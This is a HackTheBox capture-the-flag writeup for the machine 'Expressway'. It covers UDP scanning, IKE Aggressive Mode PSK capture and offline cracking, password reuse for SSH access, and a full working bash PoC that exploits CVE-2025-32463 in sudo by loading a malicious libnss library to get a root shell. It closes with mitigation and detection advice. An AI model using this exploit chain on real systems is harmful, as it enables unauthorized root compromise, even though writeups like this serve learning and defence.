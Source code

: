 # Expressway 

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

#### 🏁 Summary of Attack Chain — **Expressway**

| Step | User / Access  | Technique Used                                                                   | Result                                                                                                                  |
| :--- | :------------- | :------------------------------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)        | Nmap TCP & UDP scanning (`nmap -sVC`, `nmap -sU --top-ports 100`)                | TCP showed only SSH; UDP exposed IKE/IPsec (UDP 500, 4500) and TFTP.                                                    |
| 2    | (Remote / IKE) | IKE enumeration (`ike-scan -M --aggressive`)                                     | Captured Aggressive-Mode handshake, including `ID=ike@expressway.htb` and a verification hash / context.                |
| 3    | (Local)        | Offline PSK cracking (`psk-crack` or `hashcat -m 530`) against the captured blob | PSK recovered (weak/human password from wordlist).                                                                      |
| 4    | ike            | Password reuse / credential use                                                  | Used cracked PSK as login credential (SSH / VPN) and obtained a shell as `ike` (user flag).                             |
| 5    | ike            | Local enumeration (`sudo --version`, system info)                                | Identified `sudo` version **1.9.17** — vulnerable to **CVE-2025-32463** (chroot/NSS abuse).                             |
| 6    | ike            | Craft PoC payload (malicious `libnss` shared object + chroot tree)               | Built `kai_ht.c` -> `libnss_/kai_ht.so.2` and prepared `pentest` chroot with `etc/nsswitch.conf` pointing to `/kai_ht`. |
| 7    | ike → root     | Exploit: abuse `sudo -R` chroot handling (PoC script)                            | `sudo -R pentest pentest` triggers the malicious library initializer, escalating to root (root shell).                  |
| 8    | root           | Post-exploit / flag retrieval                                                    | Read `root.txt` and completed full compromise.                                                                          |



> Quick summary

> TCP looked quiet (only SSH), UDP revealed IKE/IPsec. IKE Aggressive Mode + PSK → offline crackable hash → PSK reused as SSH credential. From user shell, sudo was vulnerable (CVE-2025-32463) and a chroot-based PoC escalated to root.

---

# Recon

## TCP scan (nmap)

```
nmap -sVC 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 00:22 CEST

Nmap scan report for 10.10.11.87
Host is up (0.033s latency).

Not shown: 999 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Only SSH on TCP — don’t stop here.

---

## UDP scan (nmap — top 100)

```
nmap -sU --top-ports 100 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 00:23 CEST

Nmap scan report for 10.10.11.87
Host is up (0.15s latency).

Not shown: 96 closed udp ports (port-unreach)

PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```

**Notes:** UDP/500 and 4500 indicate IKE/IPsec. UDP/69 (TFTP) might host configs or backups — keep in mind for later.

---

## IKE enumeration (ike-scan)

```
ike-scan -M 10.10.11.87

10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=04ec1a9db3726275)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
```

Aggressive mode:

```
ike-scan -M --aggressive 10.10.11.87

10.10.11.87    Aggressive Mode Handshake returned
        HDR=(CKY-R=261e81de0f8d9a62)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)
```

**Why this matters**

* Aggressive Mode leaks enough (ID + Hash + params) to compute a verification hash that depends on the PSK.
* With the captured handshake + correct ID, you can brute-force the PSK offline.

---

# Offline PSK cracking

1. Dump the Aggressive-mode blob (include `--id=ike@expressway.htb`) with `ike-scan`.
2. Use `psk-crack` or `hashcat` (IKE Aggressive Mode PSK — hashcat mode **530**) against the blob.
3. Wordlists + rules (e.g., `rockyou + best64`) are effective against human PSKs.

Example run (from notes):

```
ike-scan -M --aggressive --id=ike@expressway.htb 10.10.11.87 --pskcrack=psk.txt
psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
# result: key "freak<PASS>" matches SHA1 hash ...
```

![IKE](Pictures/htb_expressway_ike.png)
![Password_Cracking](Pictures/htb_expressway_ike_pass.png)

**Operational tip:** If the PSK cracks, try it against likely usernames found during enumeration (e.g., `ike`); password reuse is common.

---

# Achieve user shell

* Use cracked PSK as SSH credential (or as VPN credential to get further access).
* Retrieve `user` flag and system data.

![User_flag](Pictures/htb_expressway_user_flag.png)

---

# Privilege escalation — local (Expressway)

## Sudo info

```
ike@expressway:~$ sudo --version
Sudo version 1.9.17
```

![Sudo](Pictures/htb_expressway_sudo.png)

**Vulnerability:** Sudo 1.9.17 is vulnerable to **CVE-2025-32463** (chroot-related privilege escalation). The vulnerable behavior allows abusing `sudo -R` chroot handling to load a malicious `libnss` style shared object that runs code as root.

---

## Exploit overview (PoC summary)

* Build a malicious shared object with an `-init` function that sets UID/GID to 0 and spawns a shell.
* Create a fake `pentest` chroot tree with a custom `etc/nsswitch.conf` pointing to the malicious library (`/kai_ht`) and a placed `libnss_/kai_ht.so.2`.
* Invoke `sudo -R pentest pentest` to trigger the chroot handling path and execute the initializer in the shared object as root.
* Cleanup temporary files.

**High-level steps**

1. Prepare temp staging directory.
2. Create `kai_ht.c` with initializer that sets UID/GID → 0 and execs `/bin/bash`.
3. Build `libnss_/kai_ht.so.2` (shared, `-fPIC`, `-Wl,-init,woot`).
4. Provide `pentest/etc/nsswitch.conf` that references `/kai_ht`.
5. Run `sudo -R pentest pentest`. If successful, get root shell and `cat /root/root.txt`.

---

## PoC script (`exp.sh`)

```bash
#!/bin/bash

# CVE-2025-32463 PoC - Sudo Chroot Privilege Escalation
# Based on research by Rich Mirch @ Stratascale Cyber Research Unit

STAGE=$(mktemp -d /tmp/pentest.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > kai_ht.c<<'CEOF'
#include <stdlib.h>
#include <unistd.h>

void woot(void) {
    setreuid(0,0);
    setregid(0,0);
    chdir("/");
    execl("/bin/bash", "/bin/bash", NULL);
}
CEOF

mkdir -p pentest/etc libnss_
echo "passwd: /kai_ht" > pentest/etc/nsswitch.conf
cp /etc/group pentest/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/kai_ht.so.2 kai_ht.c

echo "[*] Exploiting CVE-2025-32463..."
echo "[*] Attempting privilege escalation..."
sudo -R pentest pentest

# Cleanup
rm -rf ${STAGE?}
```

**Usage**

```bash
chmod +x exp.sh
./exp.sh
```

![Priviledge_Escalation](Pictures/htb_expressway_PE.png)


# If successful:
```
cat /root/root.txt
```

![Root_Flag](Pictures/htb_expressway_Root_flag.png)

---

# TL;DR & Takeaways

* **Don’t stop at TCP.** UDP can expose services (IKE/TFTP/DHCP) that lead to full compromise.
* **IKEv1 Aggressive Mode + PSK = offline cracking opportunity.** Capture the handshake with `ike-scan --aggressive --id=<id>` and crack it offline (psk-crack or hashcat m=530).
* **Password reuse is real.** Cracked PSKs often work as remote user credentials.
* **Check local sudo versions** — old/vulnerable sudo builds (like 1.9.17 here) can be escalated with chroot/NSS abuse (CVE-2025-32463).
* **Blue-team mitigation:** disable IKEv1 Aggressive Mode; use IKEv2 w/ certs; use long random PSKs; avoid PSK reuse; upgrade sudo and audit chroot handling; monitor `sudo -R`/chroot use and unexpected shared-library loads.

---

# Suggested mitigations & detection (brief)

**Mitigations**

* Use IKEv2 with certificate authentication instead of IKEv1 Aggressive + PSK.
* Enforce long, high-entropy PSKs and rotate them; never reuse VPN PSKs as user passwords.
* Patch sudo to a version that fixes CVE-2025-32463; apply vendor patches.
* Harden TFTP/other UDP services or disable if unused.

**Detection**

* Monitor for unexpected `sudo -R` usage or `sudo` invocations that reference chroot paths.
* Alert on unexpected creation of `libnss_*` libraries in user-writable directories.
* Monitor for high volumes of IKE Aggressive-mode attempts and Aggressive-mode handshakes.

---

-->